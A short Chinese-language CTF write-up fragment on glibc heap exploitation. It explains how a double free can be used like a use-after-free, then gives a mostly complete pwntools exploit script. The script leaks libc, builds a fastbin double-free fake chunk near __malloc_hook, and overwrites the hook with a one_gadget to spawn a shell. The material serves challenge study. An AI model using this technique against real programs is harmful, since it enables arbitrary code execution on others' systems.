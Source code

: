 这里71中的1表示 前一个堆块被使用。



已知double free可以修改指针，那么如果能泄漏地址，可以造成和uaf同样的效果。不同的地方是：uaf需要多add几次，才能申请到我们想要的堆块。

【经提示，uaf是漏洞类型，uaf是漏洞的利用方式 】



exp如下：

```python 
add(0,0x108)
add(1,0x108)
add(2,0x108)

free(0)

show(0)
ru("Content: ")
libc_base = u64(rc(6).ljust(8,'\x00')) - 0x3c4b78
print "libc_base --->" + hex(libc_base) + '\n'

system = libc_base + libc.sym["system"]
binsh = libc_base + libc.search('/bin/sh').next()

print "system --->" + hex(system) + '\n'
print "binsh --->" + hex(binsh) + '\n'

#------one_gadget:0x45226 0x4527a 0xf0364 0xf1207------------

one_gadget = libc_base + 0xf1207
print "one_gadget --->" + hex(one_gadget) + '\n'

malloc_hook = libc_base + libc.sym["__malloc_hook"]
realloc = libc_base + libc.sym["realloc"]
print "malloc_hook --->" + hex(malloc_hook)
print "realloc --->" + hex(realloc)
fake_chunk = malloc_hook - 0x23
print "fake_chunk ---> " + hex(fake_chunk)

add(3,0x68)
add(4,0x68)

free(3)
free(4)
free(3)

add(5,0x68)
edit(5,0x8,p64(fake_chunk))
add(6,0x68)
add(7,0x68)
add(8,0x68)

py = ''
#py += 'a'*0x23 + p64(one_gadget) + '\n'
py+= 'a'*11 + p64(one_gadget) + p64(realloc+2) + '\n'
print py + '\n'

add(9,0x68)

p.interactive()
```

